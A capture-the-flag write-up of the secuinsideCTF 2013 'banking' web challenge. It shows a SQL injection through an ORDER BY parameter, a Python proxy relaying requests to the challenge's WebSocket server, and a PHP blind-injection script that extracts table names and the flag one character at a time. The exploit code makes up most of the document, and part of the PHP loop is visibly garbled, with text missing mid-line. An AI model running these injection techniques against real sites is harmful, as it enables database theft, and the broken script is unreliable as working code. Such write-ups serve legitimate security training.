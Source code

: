 ```yaml
---
title: secuinsideCTF 2013 web banking writeup
author: slipper
layout: post
permalink: /secuinsidectf-2013-web-banking-writeup/
categories:
  - Uncategorized
---
```

## banking

We found a SQL injection vulnerability in the list page.

When we use the funtion `listing('balance', 'desc')`, we will get the list of users ordered by `balance`.

The sql query seems to be

    select user,balance from user_accounts order by $o $b;
    

$o and $b is the two parameters of function listing();

$o is filtered, but $b is injectable.

For eaxmple, `listing('balance', 'limit 0,1')`; returns only one result.

The following queries returns different result.

    select user,balance from user_accounts order by user, If(2&gt;1, 1, select table_name from information_schema.tables)
    select user,balance from user_accounts order by user, If(2&lt;1, 1, select table_name from information_schema.tables)
    

We wrote a python script to switch protocols from HTTP to WebSocket. (by Flanker)

    from SimpleHTTPServer import SimpleHTTPRequestHandler
    from BaseHTTPServer import BaseHTTPRequestHandler
    from BaseHTTPServer import HTTPServer
    from urlparse import urlparse, parse_qs
    import SocketServer
    from websocket import create_connection
    import json
    
    class MyHTTPRequestHandler(BaseHTTPRequestHandler):
    
        def do_GET(self):
            enc = &#039;utf-8&#039;
            self.send_response(200)
            self.send_header(&quot;Content-type&quot;, &quot;text/html;charset%s&quot; % enc)
            self.end_headers()
            url = self.path
            d = parse_qs(urlparse(url).query)
            print d
            cmd = &quot;list_init&quot;
            if &quot;cmd&quot; in d:
                cmd = d[&quot;cmd&quot;][0]
            o = None
            if &quot;o&quot; in d:
                o = d[&quot;o&quot;][0]
            b = None
            if &quot;b&quot; in d:
                b = d[&quot;b&quot;][0]
            print o, b
            if o is not None and b is not None:
                result = json.loads(self.ws_fetch(cmd, o, b))
                users = json.loads(result[&quot;m&quot;])
                self.wfile.write(len(users))
    ##            for user in users:
    ##                self.wfile.write(&quot;<tr>\n")
    ##                self.wfile.write(("<th>%s</th>\n" % user["user"]).encode("utf-8"))
    ##                self.wfile.write(("<th>%s</th>\n" % user["balance"]).encode("utf-8"))
    ##                self.wfile.write("</tr>")
    
    ##            self.wfile.write("</table>")
    
        def ws_fetch(self, cmd, o, b):
            s = json.dumps({"cmd": cmd, "o": o,"b":b})
            print s
            fetched = False
            while not fetched:
                try:
                    ws = create_connection("ws://1.234.27.139:38090/banking")
                    ws.send(s)
                    ret = ws.recv()
                    fetched = True
                    return ret
                except Exception as e:
                    print "err"
                    print e
            return None
    
        def do_POST(self):
            pass
    
        def do_HEAD(self):
            pass
    
    
    if __name__ == '__main__':
        port = 8080
    
        handler = SimpleHTTPRequestHandler
    
        # httpd = SocketServer.TCPServer(("", port ), handler )
        httpd = HTTPServer(('', port), MyHTTPRequestHandler)
    
        print "Server is running at port", port
        httpd.serve_forever()
    

Later we wrote a php script to do blind injection.

    &lt;?php
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_HEADER, 0);
    
        function check($url)
        {
            global $ch;
            curl_setopt($ch, CURLOPT_URL, $url);
            echo &quot;$url\n&quot;;
            $res = curl_exec($ch);
            echo &quot;$res\n&quot;;
            return $res;
        }
    
        function guess($column, $clause = &quot;from information_schema.tables limit 0,1&quot;, $length = 3)
        {
            $ret = &quot;&quot;;
            $clause = urlencode($clause);
            for ($i = 1; $i 1;
                    $url = "http://127.0.0.1:8080/?o=user&amp;b=,If((select%20ascii(substring($column,$i,1))%20$clause)&gt;=$mid,1,(select%20table_name%20from%20information_schema.tables))%20limit%200,1";
                    if (check($url)) $l = $mid+1;
                    else $r = $mid - 1;
                    echo "$l, $r\n";
                }
                $ret .= chr($r);
                echo "$ret\n";
            }
            return $ret;
        }
    
        //echo guess("length(version())");
        //echo guess("version()", 23);
        //echo guess("length(table_name)", "from information_schema.tables where table_schema!=0x696e666f726d6174696f6e5f736368656d61 limit 0,1");  // 13
        //echo guess("table_name", "from information_schema.tables where table_schema!=0x696e666f726d6174696f6e5f736368656d61 limit 0,1", 13);  //user_accounts
        //echo guess("length(table_name)", "from information_schema.tables where table_schema!=0x696e666f726d6174696f6e5f736368656d61 limit 1,1");  // 8
        //echo guess("table_name", "from information_schema.tables where table_schema!=0x696e666f726d6174696f6e5f736368656d61 limit 1,1", 8);   // flag_tbl
        //echo guess("length(table_schema)", "from information_schema.tables where table_name=0x666c61675f74626c limit 0,1");   // 7
        //echo guess("table_schema", "from information_schema.tables where table_name=0x666c61675f74626c limit 0,1", 7);    // flag_db
        //echo guess("length(column_name)", "from information_schema.columns where table_name=0x666c61675f74626c limit 0,1");   // 4 flag
        //echo guess("length(flag)", "from flag_db.flag_tbl limit 0,1");    // 21
        //echo guess("flag", "from flag_db.flag_tbl limit 0,1", 21);    // TheG0d0fGrabs_M4dL1F3
    ?&gt;
    

The Flag is `TheG0d0fGrabs_M4dL1F3` .
